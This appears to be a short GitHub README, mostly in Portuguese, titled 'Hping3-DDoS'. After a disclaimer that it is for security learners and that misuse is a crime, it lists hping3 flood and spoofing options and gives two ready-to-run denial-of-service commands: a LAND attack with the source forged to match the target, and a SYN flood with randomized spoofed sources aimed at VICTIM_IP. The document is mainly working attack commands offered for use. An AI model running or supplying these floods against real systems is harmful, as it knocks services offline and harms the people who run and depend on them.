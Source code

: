 # Hping3-DDoS

## AVISO
- Não me responsabilizo pelo o uso desses projetos/códigos para fins malignos. Eles são criados para pessoas que tenham interesse na área de Segurança da Informação.

- Todos os códigos e projetos foram testados em ambientes isolados por mim.

- Lembrem-se de que usar essas informações para hackear, invadir ou derrubar serviços de dispositivos alheios é CRIME previsto na Lei [14.155/2021](http://www.planalto.gov.br/ccivil_03/_ato2019-2022/2021/lei/L14155.htm).
# Important Commands

- Help hping3

```
sudo hping3 -h
```

```
• -V: Modo Verbose;
• -c: Contador de pacotes;
• -d: Tamanho do dado;
• -p: Porta de destino;
• -s: Porta de origem;
• –rand-source: Randomização da origem;
• –fast: 10 pacotes por segundo;
• –faster: 100 pacotes por segundo;
• –flood: Máximo de pacotes possı́veis por segundo;
```

```
Mode
  default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode

```

## Attack DoS Land
```
hping3 -V -c 1000 -d 100 -S -p 21 -s 80 -k -a 192.168.1.110 192.168.1.110
```

## DoS type Syn Flooding
```
hping3 -V -c 1000000 -d 120 -S -p 445 -s 445 --flood --rand-source VICTIM_IP
```